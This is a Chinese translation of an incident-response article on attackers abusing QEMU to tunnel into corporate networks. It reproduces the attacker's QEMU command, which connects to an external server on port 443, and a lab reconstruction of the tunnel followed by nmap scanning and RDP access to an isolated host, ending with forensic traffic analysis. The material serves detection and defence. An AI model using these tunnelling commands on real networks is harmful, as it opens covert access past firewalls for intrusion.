





# [翻译]使用 QEMU 进行内网穿透？ - 先知社区

\[翻译\]使用 QEMU 进行内网穿透？

- - -

翻译原文： [https://securelist.com/network-tunneling-with-qemu/111803/](https://securelist.com/network-tunneling-with-qemu/111803/)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240306184933-37ddad06-dba7-1.png)

# 前言

网络攻击者在采取各种攻击步骤时往往会优先考虑合法工具，因为这些工具可以帮助他们逃避检测系统，同时将恶意软件的开发成本降至最低。网络扫描、捕获进程内存转储、窃取数据、远程文件执行，甚至加密驱动器，所有这些都可以使用可信软件来完成。为了在失陷的基础设施中维持权限并发起攻击，攻击者可以使用之前安装的恶意软件或通过公司的 RDP 服务器或企业 VPN 与员工一起连接到网络（为此，攻击者必须拥有适当权限的帐户）。连接到受攻击组织内部网络的另一种方法是使用实用工具在公司系统和失陷的服务器之间建立网络隧道或端口转发，这使得攻击者能够绕过 NAT 和防火墙来访问内部系统。本文想在这里讨论的正是这一类软件。

# 工具统计

目前有很多在两个系统之间建立网络隧道的实用工具。其中一些直连，而另一些则使用代理，隐藏攻击者服务器的 IP 地址。以下是我们在过去三年中网络应急响应时遇到的工具。

-   Stowaway
-   ligolo
-   3proxy
-   dog-tunnel
-   chisel
-   FRP
-   ngrok
-   gs-netcat
-   plink
-   iox
-   nps  
    最常用的是 ngrok 和 FRP。此类程序占攻击总数的 10%。  
    #QEMU 作为隧道工具  
    几个月前，在调查一家大公司的一起安全事件时，我们在其中一个系统内发现了不常见的恶意活动。我们对这些工件进行了分析，结果发现攻击者部署并启动了以下程序
-   ip 扫描器
-   密码、哈希值和 Kerberos 票证提取器以及 Active Directory 攻击工具
-   QEMU 硬件模拟器  
    前两个不用说了，但 QEMU 有一些问题。恶意攻击者使用 QEMU 虚拟器有什么用？  
    我们能够从受感染机器的内存中找到 QEMU 执行命令行。我们发现它是在没有 LiveCD 或磁盘映像的情况下启动的，这对于 QEMU 来说非常不寻常。这些是攻击者用来运行 QEMU 的参数：
    
    ```plain
    qemu-system-i386.exe -m 1M -netdev user,id=lan,restrict=off -netdev socket,id=sock,connect=<IP>:443 -netdev hubport,id=port-lan,hubid=0,netdev=lan -netdev hubport,id=port-sock,hubid=0,netdev=sock -nographic
    ```
    
    其中 <ip> 是外部 IP 地址。让我们仔细看看这些参数。</ip>
-   \-m 1M：指定分配给虚拟机的 RAM 大小。在本例中为 1 MB，对于大多数操作系统来说完全不够。
-   \-netdev user,id=lan,restrict=off：创建一个名为 lan、类型为 user 的虚拟网络接口，该接口允许虚拟机通过主机网络堆栈与外界通信。limit=off 选项删除对入站和出站连接的限制。
-   \-netdev socket,id=sock,connect=<ip>:443：创建名为 sock 的套接字类型网络接口，该接口提供到指定 IP 地址和端口 443 的远程服务器的连接。</ip>
-   \-netdev hubport,id=port-lan,hubid=0,netdev=lan：向 hubid=0 的虚拟集线器添加端口，该端口链接到虚拟网络接口 lan。
-   \-netdev hubport,id=port-sock,hubid=0,netdev=sock：与上面类似，这会向链接到虚拟网络接口 sock 的虚拟集线器再添加一个端口。
-   \-ngraphic：以非 GUI 模式启动 QEMU，并带有控制台输出。  
    参数中的 IP 地址立即引起了我们的注意：它是外部的，与受攻击的公司完全无关，因此我们查阅了 QEMU 文档。我们发现 QEMU 支持虚拟机之间的连接：-netdev 选项创建可以连接到虚拟机的网络设备（后端）。众多网络设备中的每一个都由其类型定义并支持额外的选项。以下是所使用的 -netdev 值的描述。  
    这是将虚拟机连接到网络的最简单方法。流量通过主机网络堆栈，虚拟机连接到网络，就像主机上的常规应用程序一样。
    
    ```plain
    qemu-system-x86_64 -netdev user,id=mynet0 -device e1000,netdev=mynet0
    ```
    
    这里，mynet0 是网络后端 ID，e1000 是虚拟机内部的网络适配器（前端）。类似于网络集线器连接多个网络设备。

# socket

它通过网络套接字直接连接虚拟机，以创建虚拟机网络拓扑或链接在不同主机上启动的虚拟机。

# VM1

```plain
qemu-system-x86_64 -netdev socket,id=mynet3,listen=:1234 -device e1000,netdev=mynet3
```

# VM2 链接到 VM1

```plain
qemu-system-x86_64 -netdev socket,id=mynet4,connect=127.0.0.1:1234 -device 
e1000,netdev=mynet4
```

VM1 侦听端口 1234，而 VM2 连接到该端口。这就是攻击者采取的方法：他们在受感染的系统中启动了一个“客户端”，并将其连接到他们的服务器，以开放对运行“客户端”的企业网络的访问。它对受感染系统的性能几乎没有影响，因为攻击者在运行 QEMU 时既不使用磁盘映像也不使用 LiveCD。

-   我们无法准确地确定攻击者如何在自己的服务器上运行 QEMU，因此我们决定在由三个系统组成的测试环境中测试上述描述的技术。
-   InternalHost 位于网络内部，无法访问互联网，并在端口 3389 上运行 RDP 服务器。它模拟了无法访问互联网的隔离系统。
-   PivotHost 位于网络内部，但可以访问互联网。它模拟了被攻击者攻破并用于访问 InternalHost 的系统。
-   AttackerServer 托管在云端，它模拟攻击者的服务器。

我们的目标是从 AttackerServer 到达 InternalHost。下图显示了隧道的总体布局。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240306190526-6fbebd80-dba9-1.png)  
我们在 AttackerServer 上使用 QEMU 从 Kali Linux LiveCD 启动虚拟机。套接字类型的网络设备作为网络适配器连接到虚拟机并侦听端口 443。

```plain
qemu-system-x86_64 -boot d -cdrom kali-linux-2023.3-live-amd64.iso -m 6048 -device e1000,netdev=n1,mac=52:54:00:12:34:56 -smp 2 -netdev socket,id=n1,listen=:443
```

QEMU 的另一个副本在 PivotHost 上运行，并通过套接字网络设备连接到云中 AttackerServer 上的端口 443。我们还连接了一个用户型网络设备，通过集线器与 socket 结合。我们使用的 QEMU 启动选项与对手之前使用的类似。

```plain
qemu-system-i386.exe -m 1M -netdev user,id=lan,restrict=off -netdev socket,id=sock,connect=<AttackerServer>:443 -netdev hubport,id=port-lan,hubid=0,netdev=lan -netdev hubport,id=port-sock,hubid=0,netdev=sock -nographic
```

启动后，QEMU 会建立一条从 PivotHost 到 AttackerServer（或更准确地说，到 Kali Linux VM）的网络隧道。Kali Linux 可以扫描 PivotHost 子网连接的其他系统。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240306190923-fcf0545c-dba9-1.png)  
扫描定位到 InternalHost，IP 地址为 192.168.56.109。Nmap 程序显示端口 3389 已打开。我们尝试使用 RDP 连接到 InternalHost。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240306191022-2019dec6-dbaa-1.png)  
因此，我们能够确定这种实现内网穿透的技术确实是有效的。除了上述类型的网络设备之外，QEMU 还支持其他几种网络设备，这些设备也可能被恶意攻击者利用。

# QEMU 网络流量分析

QEMU 在传输流量时不使用任何额外的加密。它传输未加密的封装数据包：发送到服务器的应用程序级数据包数据包含封装以太网帧的大小（4 字节，下图中黄色轮廓），后面是以太网帧本身（红色轮廓）。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240306191154-572187e8-dbaa-1.png)  
上图中封装的以太网帧的大小为 89 (0x59) 字节。该值后面紧跟着封装的以太网帧。  
有了流量转储（在这种情况下已在 PivotHost 上拦截），我们可以通过删除前 58 个字节来获取封装的流量（对于 TCP：14 个字节用于以太网 + 20 个字节用于 IP + 20 个字节用于 TCP 标头 + 4 个内部字节数据包大小）。从 PCAP 文件中删除所有不包含封装流量的数据包后，可以使用 Wireshark 软件包中的 editcap 实用程序来完成此操作。

```plain
editcap.exe -L -C 58 original.pcap extracted_traffic.pcap
```

结果是一个 PCAP 文件，其中包含通过隧道发送的流量。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240306191404-a430a78a-dbaa-1.png)

# 结论

恶意攻击者使用合法工具执行各种攻击步骤对于应急响应专业人员来说并不罕见。然而，我们必须承认，攻击者有时会对不太可能的软件想出巧妙的应用，就像 QEMU 的情况一样。实在是太精彩了 666。
